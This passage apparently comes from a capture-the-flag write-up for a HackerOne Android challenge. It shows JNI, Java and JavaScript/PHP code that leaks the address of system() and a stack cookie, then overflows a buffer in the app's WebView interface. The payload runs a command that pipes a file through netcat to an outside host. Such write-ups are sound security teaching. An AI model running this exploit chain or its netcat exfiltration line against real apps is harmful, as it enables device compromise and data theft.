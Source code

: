 ```c++
JNICALL Java_ctf_zetatwo_com_challenge5exploit2_MainActivity_getSystemAddr( JNIEnv *env, jobject /* this */) {
    return reinterpret_cast<long long int>(system);
}
```

which we then use in the Java part to trigger out exploit like this:

```java
private void doExploit() {
    Intent launchIntent = getPackageManager().getLaunchIntentForPackage("com.hackerone.mobile.challenge5");
    launchIntent.putExtra("url", "http://1bcf5167.ngrok.io/?sys_addr=" + Long.toString(getSystemAddr()));
    startActivity(launchIntent);
}

public native long getSystemAddr();
```

This sends the app to a URL with a PHP script which outputs the javascript with the provided adress to system as part of the script. The final attack script then looks like this. I have left out some utility functions for brevity.

```javascript
//1. Get address of global buffer
data_addr = PetHandler.getMySomething();
data_addr_val = parseInt(data_addr, 10);
data_addr_packed = pack(data_addr_val);

//2. Get system address from input and calculate gadget location
system_addr = <?php echo $_GET['sys_addr']; ?>;
system_offset = 0x07D360;
gadget_offset = 0x07D743;
base_addr = system_addr - system_offset;
gadget_addr = base_addr + gadget_offset;

//3. Create argument to system()
command = "cat /data/local/tmp/challenge5|nc zeta-two.com 5000";
command = btoa(command)

//4. Leak stack cookie
leak1 = JSON.parse(PetHandler.censorMyDogs(512 + 512 + 8 + 32 + 8, command));
cookie = leak1.slice(512 + 512, 512 + 512 + 8);

//5. Put together payload
payload = []
payload = payload.concat(pad(512, 0x41));
payload = payload.concat(pad(8, 0x42)); //pad
payload = payload.concat(cookie);
payload = payload.concat(data_addr_packed); //rbx
payload = payload.concat(pad(8, 0x44)); //r14
payload = payload.concat(pack(system_addr)); //r15
payload = payload.concat(pack(gadget_addr)); //ret

//6. Trigger buffer overflow
PetHandler.censorMyCats(JSON.stringify(payload));
```
